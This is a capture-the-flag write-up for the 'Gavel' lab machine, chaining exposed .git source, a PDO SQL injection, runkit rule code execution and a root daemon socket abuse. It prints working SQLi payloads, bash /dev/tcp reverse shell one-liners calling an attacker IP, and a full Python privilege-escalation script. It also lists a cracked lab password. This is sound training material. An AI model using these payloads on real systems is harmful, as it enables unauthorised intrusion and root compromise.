---
tags:
  - Linux
  - Medium
  - WebApp
  - SQLi
  - git
  - git-dumper
  - PHP
  - runkit
  - RCE
  - Custom_Binary
  - Sockets
  - Binary_Analysis
  - Decompilation
  - binaryninja
  - strace
  - Directory_Busting
---


## User

### Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have two ports open: HTTP and SSH

```
# Nmap 7.95 scan initiated Sat Nov 29 20:03:38 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/gavel 10.129.242.79
Nmap scan report for 10.129.242.79
Host is up, received reset ttl 63 (0.053s latency).
Scanned at 2025-11-29 20:03:39 GMT for 9s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN/Hhg1nYlWGdi109d6k/OXFg0xbLVuEho3xQqX/DkRDPQ5Y9P6l2XLkbsSscgiQIq3/bHeX6T4mLci0/I/kHeI=
|   256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMYFumAaeF6fOwurP+3zFG7iyLB1XC40te7RWDNVze0x
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://gavel.htb/
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 29 20:03:48 2025 -- 1 IP address (1 host up) scanned in 9.45 seconds
```

### Registering an Account to the WebApp

Let's start off by assessing the web app. `nmap` shows a redirect so `gavel.htb`, so we add that to our `/etc/hosts` file. Navigating to it in the browser, it looks like a site where we can bid and acquire fictional items.



On the left, we can register for an account, so I make my usual account of `shep`.




### Pulling the Source Code through .git

As part of my typical enumeration for web apps, I ran a `gobuster` scan to enumerate subdirectories. Seeing as this is a `php` site, I gave the `-x` flag to look specifically for `php` related extensions.

`gobuster dir -u http://gavel.htb -w ~/git/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o goMain`

Looking at the results in the output file `goMain` and grepping out the `403` status codes, we can see that one of the entries is `.git`.



We can use [git-dumper](https://github.com/arthaud/git-dumper) to pull these files down and view the source code.

`python3 git_dumper.py http://gavel.htb src`

This pulls the file into a created directory `src` which we can move to our main working directory.



### Getting Admin via SQLi in inventory.php

Looking through the source files, we see a strange looking SQL query in `inventory.php`:

```
...
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
...
```

Something about the way `$col` is used directly in the prepared statement caught my eye. Looks like we have control of it through the `sort` parameter that gets used in the query, along with `userId`. As it turns out, [this article](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/) talks about abusing SQLi with pretty much this exact case. We can also find the database name of `gavel` in `includes/config.php`.



After some tinkering, I constructed the following payload:

```user_id=x` FROM (SELECT password AS `'x` from gavel.users)y;-- -&sort=\?-- -%00```

I intercepted a request in `BurpSuite`, changed the method to `POST`, added a `Content-Type` header for `x-www-form-urlencoded`, added the payload, and got the database hashes.





It would probably also be helpful to dump the usernames to make sure we know what accounts these go with. I used the same methodology as before, but just changed the payload to specify the username instead:

```user_id=x` FROM (SELECT username AS `'x` from gavel.users)y;-- -&sort=\?-- -%00```



Looks like the first hash goes with the account `auctioneer`. Let's put the `bcrypt` hash into a file `admin.hash` and crack it with the following `hashcat` command:

`hashcat -a 0 -m 3200 admin.hash ~/Documents/rockyou.txt`

Cracking the hash reveals a password of `midnight1` and can be used to log in to the site.





### RCE via RunKit Functions

Looking at the admin panel, it seems we can update the rules and messages of items up for auction. These auction rules give special requirements during bidding for some extra fun, like having to bid a multiple of 5. We can see the default rules in `rules/default.yaml`.



We can also see how these rules get processed on the web app, which is via runkit functions. The following comes from `includes/bid_handler.php` and shows that auctions are pulled from the database. The rule is then added via `runkit_function_add` and subsequently ran as a function to see if the bid matches the rule.

```
...
try {
    if (function_exists('ruleCheck')) {
        runkit_function_remove('ruleCheck');
    }
    runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
    error_log("Rule: " . $rule);
    $allowed = ruleCheck($current_bid, $previous_bid, $bidder);
} catch (Throwable $e) {
    error_log("Rule error: " . $e->getMessage());
    $allowed = false;
}
...
```

Now that we're an admin, we can update these rules to whatever we want. Since the rules basically just execute `php` code, we can change a rule to be a reverse shell and get onto the box. Let's change one of the rules to the following and then place a bid on the updated item to catch a shell:

`system("bash -c 'bash -i >& /dev/tcp/<ip>/9001 0>&1'");`







Looks like we got a shell as `www-data`. Taking a peak at `/home`, it seems that `auctioneer` has a user on here. We can use `su auctioneer` to pivot to their user and get the user flag.



## Root

### Discovering gaveld and gavel-util

Looking around the box, we see that there is a binary called `gaveld` in `/opt/gavel`. It also contains some configuration items and a `submission` directory that we can't add to.



We can confirm that this is being ran by `root` using `ps aux`:



Surely there's some way to interact with this service. It seems like the submitted items still have that `rule` field in it, so maybe we can execute code the same way as before in the web app. In continuing to look around, I noticed that my user was in the `gavel-seller` group.



Let's look for things that this unique group owns with `find`:

`find / -group gavel-seller 2>/dev/null`

In the search, a binary `gavel-util` is found.





### Setting RULE_PATH to Bypass php.ini

This seems to be our gateway into submitting items. Let's try to submit the sample file that already exists in `/opt/gavel`:



Hm, seems to have errored. Let's copy the file and move all the keys down a level before trying again.



That seemed to do the trick. Let's try to run a system command like we did before under `rule`.



No dice. Looks like there's some kind of filtering or blocking happening akin to restrictions in `php.ini`. Lo and behold, that's actually what's happening. We can see the restrictions in `/opt/gavel/.config/php/php.ini` via the `disable_functions` list:



It seems we've hit a dead end, but we can gain a clue by opening up `gaveld` in `binaryninja` which is a decompiler. After opening the file, we can see the `php_safe_run` function:



This section *seems* to imply that if we somehow set this `RULE_PATH` variable, we can specify the `php.ini` file that ends up getting used. ChatGPT seemed to agree when pasting the code there. After doing a Ctrl + F on `RULE_PATH`, we come to another section that mentions it:



Notice that it's referenced right next to a mentioning of `env`. `RULE_PATH` is also in all caps, which is a standard for environment variables. With this knowledge in mind, we can try to accomplish the following plan:

- Create a blank file `/dev/shm/php.ini`
- Set the environment variable `RULE_PATH` to that file
- Create a malicious `/dev/shm/shell.sh` file that contains a reverse shell
- Write a malicious item rule that executes `/dev/shm/shell.sh`
- Use `gavel-util` to submit the item to execute the shell

In performing these steps, we pop a `root` shell:



### Overwriting php.ini to Remove Restrictions (Unintended Method 1)

Another method exists which involves overwriting `php.ini` to be blank instead of pointing to a new file (and is the method I used when originally solving the box). When looking at the `disable_functions` list in `/opt/gavel/.config/php/php.ini`, we can see that `file_put_contents` isn't on that list. This means we may be able to remove the restriction on `system`. Let's change our rule to the following to make `php.ini` blank:

`file_put_contents('/opt/gavel/.config/php/php.ini', '');`

Despite the error, it seems our overwriting trick worked:



Now, let's try our reverse shell again with `system`. With `php.ini` overwritten, the `system` restriction is gone, and we pop a `root` shell.



### Abusing the gaveld.sock socket (Unintended Method 2)

Allegedly, this box can *also* be abused by writing directly to the socket file at `/var/run/gaveld.sock`. Because `gavel-util` utilizes this socket, we can use `strace` to see what kind of data gets sent across.

`strace -o output.log -s 2000 -e trace=network,desc,ipc gavel-util submit /opt/gavel/sample.yaml`

In viewing the `output.log` file, we can see this json data that is sent across.



In this, we see that the json data is sent, followed by the sample yaml. As mentioned in the intended method, `RULE_PATH` can be set to specify what `php.ini` file is used. We can therefore construct our own json data to include that as an environment variable in it, which points to our own `php.ini`. I won't go through the rest of the detailed explanation from here, but it is essentially as follows:

- Create a blank `php.ini` file at `/dev/shm/php.ini`
- Create a malicious `/dev/shm/shell.sh` that contains a reverse shell
- Define a yaml file structure with a malicious rule that calls `/dev/shm/shell.sh` via `system`
- Define the json data structure that includes `RULE_PATH` in the `env` section to point to `/dev/shm/php.ini`
- Send the json header followed by the yaml file structure directly to the socket at `/var/run/gaveld.sock`

If all goes to plan, the `php` sandbox will execute the malicious rule which points to our malicious `shell.sh` file, which won't get blocked as it uses our own blank `php.ini` file. The following script automatically gets `root` using this method (assisted with ChatGPT):

**auto_root.py**

```
import socket
import os
import json
import struct

sock_path = "/var/run/gaveld.sock"
ATTACKER_IP = "10.10.14.112"
ATTACKER_PORT = "9002"

# First touch blank php.ini filename
with open("/dev/shm/php.ini", "w") as file:
    file.write("")

# Then create malicious shell file
with open("/dev/shm/shell.sh", "w") as file:
    file.write(f"#!/bin/bash\nbash -i >& /dev/tcp/{ATTACKER_IP}/{ATTACKER_PORT} 0>&1")

# Make shell.sh executable
os.system("chmod +x /dev/shm/shell.sh")

# ---- 1. YAML body you want to send ----
yaml_body = (
    b"""
name: "My Item"
description: "A nice item"
image: "https://example.com/item.png"
price: 10000
rule_msg: "Rule violated"
rule: "system('/dev/shm/shell.sh');"
""".strip()
    + b"\n"
)  # newline optional, but nice

content_length = len(yaml_body)

# ---- 2. JSON header (sent FIRST) ----
header = {
    "op": "submit",
    "content_length": content_length,
    "filename": "sample.yaml",
    "flags": "",
    "env": {
        "RULE_PATH": "/dev/shm/php.ini",
        "SHELL": "/bin/bash",
        "PWD": "/opt/gavel",
        "LOGNAME": "auctioneer",
        "XDG_SESSION_TYPE": "tty",
        "SYSTEMD_EXEC_PID": "1002",
        "HOME": "/home/auctioneer",
        "APACHE_LOG_DIR": "/var/log/apache2",
        "LANG": "en_US.UTF-8",
        "INVOCATION_ID": "bd01b58805944260adba2a0ef243c334",
        "APACHE_PID_FILE": "/var/run/apache2/apache2.pid",
        "XDG_SESSION_CLASS": "user",
        "TERM": "xterm-256color",
        "USER": "auctioneer",
        "APACHE_RUN_GROUP": "www-data",
        "APACHE_LOCK_DIR": "/var/lock/apache2",
        "SHLVL": "4",
        "XDG_SESSION_ID": "c1",
        "LC_CTYPE": "C.UTF-8",
        "XDG_RUNTIME_DIR": "/run/user/1001",
        "APACHE_RUN_DIR": "/var/run/apache2",
        "JOURNAL_STREAM": "8:23963",
        "APACHE_RUN_USER": "www-data",
        "PATH": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin",
        "MAIL": "/var/mail/auctioneer",
        "OLDPWD": "/home/auctioneer",
        "_": "/usr/local/bin/gavel-util",
    },
}

header_bytes = json.dumps(header).encode("utf-8")
header_length_be = struct.pack(">I", len(header_bytes))

# ---- 3. Send over unix socket ----
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect(sock_path)

# Send 4-byte length + JSON header
s.sendall(header_length_be + header_bytes)

# Send YAML body (raw)
s.sendall(yaml_body)

# Read response
resp = s.recv(4096)
print("Response:", resp.decode("utf-8", errors="ignore"))

s.close()
```



## Credential List

| Username   | Password  | Description                                        |
| ---------- | --------- | -------------------------------------------------- |
| auctioneer | midnight1 | Admin login to web app and for user account on box |
